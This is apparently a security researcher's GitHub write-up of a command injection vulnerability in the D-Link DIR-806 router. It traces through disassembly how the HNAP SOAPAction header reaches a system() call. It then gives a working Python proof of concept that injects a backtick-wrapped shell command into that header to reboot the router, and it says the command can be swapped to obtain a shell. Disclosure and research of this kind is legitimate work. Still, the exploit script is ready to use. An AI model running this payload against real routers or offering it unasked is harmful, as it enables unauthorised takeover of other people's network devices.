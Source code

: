 # DIR-806_Code_Injection

The fireware is the lasted version of DIR-806 in D-LINK website：
```
http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-806 
```
## Vulnerability Analyze
When the router get the request of HNAP, it will call the hnap_main() function in /htdocs/cgibin,then it get SOAPAction by getenv :
```
.text:00411FAC                 la      $a0, aHttp_authoriza  # "HTTP_AUTHORIZATION"
.text:00411FB0                 lui     $a0, 0x42  # 'B'
.text:00411FB4                 lw      $gp, 0x248+var_230($sp)
.text:00411FB8                 la      $a0, aHttp_soapactio  # "HTTP_SOAPACTION"
.text:00411FBC                 la      $t9, getenv
.text:00411FC0                 jalr    $t9 ; getenv
.text:00411FC4                 move    $s2, $v0
.text:00411FC8                 lui     $a0, 0x42  # 'B'
.text:00411FCC                 lw      $gp, 0x248+var_230($sp)
.text:00411FD0                 la      $a0, aRequest_method  # "REQUEST_METHOD"
.text:00411FD4                 la      $t9, getenv
```
then it will check the SOAPAction start with `http://purenetworks.com/HNAP1/GetDeviceSettings`:
```
.text:00411FF0                 la      $t9, strstr
.text:00411FF4                 la      $a1, aHttpPurenetwor  # "http://purenetworks.com/HNAP1/GetDevice"...
.text:00411FF8                 jalr    $t9 ; strstr
.text:00411FFC                 move    $a0, $s0         # haystack
.text:00412000                 lw      $gp, 0x248+var_230($sp)
.text:00412004                 bnez    $v0, loc_412044
```
then the function will get the string in SOAPAction that after the right "/" by strrchr:
```
.text:00412044                 la      $t9, strrchr
.text:00412048                 move    $a0, $s0         # s
.text:0041204C                 jalr    $t9 ; strrchr
.text:00412050                 li      $a1, 0x2F  # '/'  # c
.text:00412054                 lw      $gp, 0x248+var_230($sp)
.text:00412058                 bnez    $v0, loc_412080
```
finally it will call sprintf to make a shell and call system to run it：
```
.text:00412420                 move    $a0, $s4
.text:00412424                 la      $a2, aVarRun_0   # "/var/run/"
.text:00412428                 b       loc_412440
.text:0041242C                 la      $a1, aShSS_shDevCons  # "sh %s%s.sh > /dev/console"
.text:00412430  # ---------------------------------------------------------------------------
.text:00412430
.text:00412430 loc_412430:                              # CODE XREF: hnap_main+4C4↑j
.text:00412430                 lui     $a1, 0x42  # 'B'
.text:00412434                 move    $a0, $s4         # s
.text:00412438                 addiu   $a2, (aVarRun_0 - 0x420000)  # "/var/run/"
.text:0041243C                 la      $a1, aShSS_shDevCo_0  # "sh %s%s.sh > /dev/console &"
.text:00412440
.text:00412440 loc_412440:                              # CODE XREF: hnap_main+4D8↑j
.text:00412440                 jalr    $t9 ; sprintf
.text:00412444                 move    $a3, $s0
.text:00412448                 lw      $gp, 0x248+var_230($sp)
.text:0041244C                 la      $t9, system
.text:00412450                 jalr    $t9 ; system
```
so when we make a fake SOAPAction start with `http://purenetworks.com/HNAP1/GetDeviceSettings` and end with `/our cmd`,it will finally execv our cmd in system function
## POC
```
from pwn import *
import requests
import sys

data="<?xml version=\"1.0\" encoding=\"UTF-8\"?>\
<soap:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\" soap:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\
  <soap:Body>\
    <GetWanSettings xmlns=\"http://purenetworks.com/HNAP1/\">\
    </GetWanSettings>\
  </soap:Body>\
</soap:Envelope>"

if __name__=="__main__":
    cmd="reboot" #the shell you want execv,it can't include "/"
    fake_cmd="http://purenetworks.com/HNAP1/GetDeviceSettings/`%s`"  %cmd
    print fake_cmd
    header = {
        'SOAPAction' : fake_cmd,
        'Cookie'        : "uid=LS32Srlx8N",
        'Content-Type'  : 'text/xml',
        'Content-Length': str(len(data))
        }
    url="http://192.168.0.1/HNAP1/"
    r=requests.post(url=url,headers=header,data=data)
    print r.content
    log.info("Kirin-say PWN")
```
when you run this poc,it will reboot the router(DIR-806),and you can also edit the cmd you want to run to get shell or something else.
For example(I run the fireware in firm dyne and run its web server,when I run the POC,the router reboot successfully)
![Success](https://upload-images.jianshu.io/upload_images/7434375-62cf44267ffd84b5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
